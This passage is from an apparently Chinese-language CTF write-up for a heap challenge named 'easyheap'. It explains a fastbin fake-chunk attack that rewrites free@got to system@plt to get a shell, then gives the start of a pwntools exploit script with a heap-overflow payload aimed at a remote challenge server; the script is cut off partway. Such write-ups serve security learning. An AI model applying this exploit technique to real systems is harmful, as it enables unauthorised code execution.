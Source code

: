 利用这个漏洞我们可以修改fastbin中的fd分配fake chunk来进行任意地址写

在bss段附近我们可以找到一个size合适的地方

![image.png](img/5f2cc5aca1e8b0ea3c7506de106e5a9b.png)

由于plt表中就有system函数，故考虑分配一个bss段上的fake chunk后修改任一堆块指针为`free@got`后修改`free@got`为`system@plt`后free掉一个内容为`"/bin/sh\x00"`的chunk即可get shell

![](img/38f611acaa4141bb188e5478133cce1d.png)

构造exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn',26930)
e = ELF('./easyheap')
backdoor = 0x8048945
context.log_level = 'DEBUG'

def cmd(command:int):
    p.recvuntil(b"Your choice :")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size of Heap : ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of heap:")
    p.send(content)

def edit(index:int, size:int, content):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())
    p.recvuntil(b"Size of Heap : ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of heap : ")
    p.send(content)

def free(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    free(2)
    payload = b'A' * 0x60 + p64(0) + p64(0x71) + p64(0x6020a0 - 3 + 0x10)
```